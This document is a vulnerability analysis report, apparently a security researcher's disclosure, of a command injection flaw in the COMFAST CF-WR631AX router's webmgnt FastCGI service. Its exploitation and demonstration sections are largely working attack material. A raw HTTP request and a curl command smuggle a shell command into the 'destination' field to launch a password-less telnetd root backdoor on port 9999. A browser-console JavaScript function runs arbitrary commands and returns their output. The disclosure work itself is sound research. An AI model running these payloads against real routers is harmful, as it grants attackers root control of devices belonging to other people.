





# COMFAST CF-WR631AX Router Backend Command Injection (RCE) Analysis Report

## 1. Firmware & Target Information



- **Firmware Version**: CF-WR631AX V3-V2.7.0.8.bin
- **System Architecture**: ARM aarch64 (Little Endian)
- **Core Service**: `/usr/bin/webmgnt`
- **Vulnerability Type**: OS Command Injection

## 2. Web Service Architecture Analysis
By analyzing the Nginx configuration file (`/etc/nginx/nginx.conf`) within the filesystem, the device's web service was found to use an Nginx + FastCGI architecture:
```nginx
location /cgi-bin {
    fastcgi_pass 127.0.0.1:9002;
    include fastcgi_params;
}
```
When requesting the `/cgi-bin` path, traffic is forwarded to local port 9002. Through examination of the startup script (`/etc/init.d/webcfg`) and reverse engineering of the binary, it was confirmed that the daemon listening on port 9002 and handling the FastCGI protocol is the core service binary `/usr/bin/webmgnt`.

## 3. Routing Dispatch & Data Flow
Inside `webmgnt`, API routing is not performed by reading fields from the JSON Body. Instead, it parses the URL's `QUERY_STRING`:
1. **Parse Method & Section**: In the main dispatch function (`sub_40923C` et al.), the program searches for `method=` and `section=` parameters.
2. **Table Lookup**: When `method=SET` is detected, the program iterates through the SET action routing table near memory address `0x468C80`.
3. **Handler Selection**: When `section=ping_config` is encountered, it perfectly matches an entry in the table, and the request body data is passed to handler function `sub_43E684`.

## 4. Root Cause Analysis (sub_43E684)



Upon entering function `sub_43E684`, the program uses the OpenWrt-style `blobmsg_parse_0` function to extract data from the JSON blob converted from the HTTP body.

The extraction strategy is defined by the `blobmsg_policy` structure at memory address `0x467310`:
- `name` pointer points to the string `"destination"`.
- `type` is `3` (`BLOBMSG_TYPE_STRING`).

**Critical Flaw**: `blobmsg_parse_0` only validates the data type (confirming it is a string), but performs **no content filtering, escaping, or blacklist-based blocking whatsoever**.

Subsequently, the extracted raw string pointer goes directly into dangerous concatenation and execution:
```c
v8 = sub_43DE80(v13); // Get the raw string pointer of the "destination" field
// Formatted string concatenation with zero security filtering
sprintf_0(s_, "/bin/ping -4 -c 4 -W 2 \"%s\" > /tmp/pinglog 2>/tmp/pinglog", v8);
// Vulnerability trigger point: directly executes the concatenated shell command
system_0(s_);
```

## 5. Exploitation
Since the `sprintf` concatenation wraps the parameter in double quotes, an attacker simply needs to close the preceding command with a double quote and use a semicolon `;` as a separator to inject arbitrary malicious commands.

**Raw HTTP Request:**
```http
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: <Router IP>
Content-Type: application/json
Content-Length: 68

{"destination": "127.0.0.1\"; telnetd -l /bin/sh -p 9999; #"}
```

**cURL One-Liner:**
```bash
curl -X POST "http://<Router IP>/cgi-bin/mbox-config?method=SET&section=ping_config" \
     -H "Cookie: COMFAST_SESSIONID=<Your SessionID>" \
     -H "Content-Type: application/json" \
     -d '{"destination": "127.0.0.1\"; telnetd -l /bin/sh -p 9999; #"}'
```

**Attack Outcome:**
After executing the above request, the actual command run at the OS level becomes:
```bash
/bin/ping -4 -c 4 -W 2 "127.0.0.1"; telnetd -l /bin/sh -p 9999; #" > /tmp/pinglog 2>/tmp/pinglog
```
The router silently starts a password-less `telnetd` backdoor listening on port 9999 in the background. The attacker only needs to run `telnet <Router IP> 9999` to obtain a root shell with the highest privileges on the device.

## 6. Live Demonstration

After emulating the web interface with EMUX:



Paste our attack script into the browser console:

```javascript
async function sh(cmd) {
    let b1 = JSON.stringify({ destination: '";' + cmd + ' > /tmp/out #' });
    await fetch('/cgi-bin/mbox-config?method=SET&section=ping_config', {
        method: 'POST', headers: { 'Content-Type': 'application/json' }, body: b1
    });
    let b2 = JSON.stringify({ destination: '";cat /tmp/out > /tmp/pinglog #' });
    let r = await fetch('/cgi-bin/mbox-config?method=SET&section=ping_config', {
        method: 'POST', headers: { 'Content-Type': 'application/json' }, body: b2
    });
    return (await r.json()).pinglog.pinglog;
}

// Automatically run `id` for verification
await sh('id')
```

Result returned:



Equivalent to executing directly in the device terminal �RCE confirmed:



## 7. Next Steps
- **Authentication Bypass Research**: Reverse engineer the logic in `webmgnt` that validates `COMFAST_SESSIONID` to investigate whether an unauthenticated (Unauth) bypass exists, potentially escalating this authenticated RCE to a pre-auth unrestricted RCE.
- **Expand the Attack Surface**: Use a similar approach to traverse other routing tables (such as `0x468F68` for GET, `0x468B40` for system-status, etc.) and investigate whether other interfaces such as `time_set` and `wan_config` harbor similar concatenation vulnerabilities.

## 8. Acknowledgments

Special thanks to my junior schoolmate for his dedicated efforts and contributions throughout this vulnerability research. Check out his work at [https://github.com/luminarydawn](https://github.com/luminarydawn).
